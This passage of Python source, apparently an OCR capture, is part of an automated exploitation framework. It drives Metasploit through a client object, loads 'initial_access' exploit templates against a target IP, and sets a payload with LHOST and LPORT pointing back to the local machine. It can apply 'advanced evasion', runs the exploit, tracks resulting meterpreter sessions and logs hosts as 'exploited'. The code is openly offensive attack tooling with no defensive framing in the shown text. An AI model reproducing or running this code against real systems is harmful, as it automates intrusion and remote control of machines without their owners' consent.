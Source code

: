 ```
                    SET exploitation_status = 'exploited', exploitation_time = CURRENT_TIMESTAMP
                    WHERE operation_id = ? AND ip_address = ?
                ''', (self.operation_id, ip_address))
            else:
                exploit_results['failed_attempts'].append(ip_address)

        self.db_conn.commit()

        return exploit_results

    def attempt_exploitation(self, target_ip, os_type):
        """Attempt exploitation using appropriate templates"""
        templates = self.exploitation_templates.get(os_type, {})

        for category, exploits in templates.items():
            if category == 'initial_access':
                for exploit_template in exploits:
                    success = self.execute_exploit_template(target_ip, exploit_template)
                    if success:
                        return True

        return False

    def execute_exploit_template(self, target_ip, exploit_template):
        """Execute a specific exploit template"""
        try:
            # Load exploit module
            exploit_name = exploit_template['exploits'][0]
            exploit_module = self.msf_client.modules.use('exploit', exploit_name.split('/')[-1])

            # Configure target
            exploit_module['RHOSTS'] = target_ip

            # Configure payload
            payload_name = exploit_template['payloads'][0]
            exploit_module['PAYLOAD'] = payload_name

            # Set payload options
            exploit_module['LHOST'] = self.get_local_ip()
            exploit_module['LPORT'] = self.get_available_port()

            # Apply evasion techniques
            if self.config['evasion']['enable_advanced_evasion']:
                self.apply_evasion_techniques(exploit_module)

            # Execute exploit
            exploit_result = exploit_module.execute()

            # Check for session establishment
            if exploit_result and 'session_id' in exploit_result:
                session_id = exploit_result['session_id']
                self.active_sessions[session_id] = {
                    'target_ip': target_ip,
                    'session_type': 'meterpreter',
                    'created_time': datetime.now(),
                    'last_activity': datetime.now()
                }

                # Log successful exploitation
                self.logger.info(
                    f"Successful exploitation: {exploit_name} on {target_ip}",
                    extra={
                        'operation_id': self.operation_id,
```